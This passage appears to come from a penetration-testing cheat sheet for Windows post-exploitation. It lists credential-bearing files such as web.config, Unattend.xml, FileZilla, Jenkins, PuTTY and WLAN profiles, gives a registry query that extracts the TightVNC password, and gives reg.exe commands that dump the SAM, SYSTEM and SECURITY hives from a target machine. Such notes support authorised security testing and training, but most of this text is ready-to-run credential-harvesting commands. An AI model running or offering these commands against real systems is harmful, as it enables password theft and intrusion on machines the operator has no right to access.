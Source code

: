 ## Juicy files
There are lots of files that may contain interesting information. Tools like WinPEAS or collections like PowerSploit may help in identifying juicy files (for privesc or post-exploitation).
Below is a list of some files I have encountered to be of relevance. Check files based on the programs and/or services that are installed on the machine.

In addition, don't forget to enumerate any local databases with sqlcmd or Invoke-SqlCmd!

All user folders
Limit this command if there are too many files ;)
```
tree /f /a C:\Users
```
Web.config
```
C:\inetpub\www\*\web.config
```
Unattend files
```
C:\Windows\Panther\Unattend.xml
```
RDP config files
```
C:\ProgramData\Configs\
```
Powershell scripts/config files
```
C:\Program Files\Windows PowerShell\
```
PuTTy config
```
C:\Users\[USERNAME]\AppData\LocalLow\Microsoft\Putty
```
FileZilla creds
```
C:\Users\[USERNAME]\AppData\Roaming\FileZilla\FileZilla.xml
```
Jenkins creds (also check out the Windows vault, see above)
```
C:\Program Files\Jenkins\credentials.xml
```
WLAN profiles
```
C:\ProgramData\Microsoft\Wlansvc\Profiles\*.xml
```
TightVNC password (convert to Hex, then decrypt with e.g.: https://github.com/frizb/PasswordDecrypts)
```
Get-ItemProperty -Path HKLM:\Software\TightVNC\Server -Name "Password" | select -ExpandProperty Password
```

## Dumping secrets without Mimikatz
On target:
```
reg.exe save hklm\sam c:\users\public\downloads\sam.save
reg.exe save hklm\system c:\users\public\downloads\system.save
reg.exe save hklm\security c:\users\public\downloads\security.save
```
